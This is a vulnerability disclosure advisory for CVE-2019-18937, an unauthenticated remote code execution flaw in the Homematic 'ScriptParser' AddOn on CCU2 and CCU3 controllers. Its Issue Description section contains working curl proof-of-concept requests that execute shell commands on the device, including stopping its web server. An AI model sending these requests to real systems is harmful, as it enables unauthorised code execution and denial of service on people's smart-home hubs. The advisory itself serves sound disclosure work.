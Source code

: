 ```yaml
---
layout: post
title:  "CVE-2019-18937 eQ-3 Homematic AddOn 'ScriptParser' version 1.8 and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of /addons/script/exec.cgi script, which executes TCL script content from HTTP POST request"
date:   2020-11-20 21:15:00 MET
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-18937
- Author: psytester
- Title: eQ-3 Homematic AddOn 'ScriptParser' version 1.8 and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of /addons/script/exec.cgi script, which executes TCL script content from HTTP POST request
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: 05.11.2020
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'ScriptParser' AddOn contacted: 13.08.2019 as [issue #4](https://github.com/litti/scriptparser/issues/4)
  - Developer of 'ScriptParser' AddOn confirmation: N.A.
  - 'ScriptParser' AddOn patch: [Version 1.9](https://github.com/homematic-community/scriptparser/releases/tag/1.9) released on 03.11.2020
  - Affected 'ScriptParser' AddOn version: 1.8 and prior

# Background

From [Github 'ScriptParser' AddOn project page](https://github.com/litti/scriptparser) it's almost clear that there is a known security issue, but a lot of people have installed the AddOn which opens the vulnerability:<br>
Deutsch:
>Da immer wieder nach einer besseren Möglichkeit gesucht wird, Scripte zu editieren, habe ich den alten Scriptparser mal in ein Installationspaket gepackt. Einfach als Zusatzsoftware installieren/deinstallieren. Aufruf über den Browser mit http://IPAdressederCCU/addons/script
>Achtung: Der Parser ist nicht passwortgesichert und arbeitet auch nicht auf Session-Basis! Mit anderen Worten, wer Zugriff auf den Port 80 der CCU hat, kann den aufrufen und Skripte ausführen!

English:
>Since there is always the search for a better way to edit scripts, I packed the old script parser into an installation package. Just install/uninstall it as additional software. Call via the browser with http://IPAdressederCCU/addons/script
>Attention: The parser is not password protected and does not work on session basis! In other words, if you have access to port 80 of the CCU, you can call it and execute scripts!

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'ScriptParser' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented internal system.Exec() call:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
```

2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/script/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
```

# CVE

[CVE-2019-18937](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18937)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
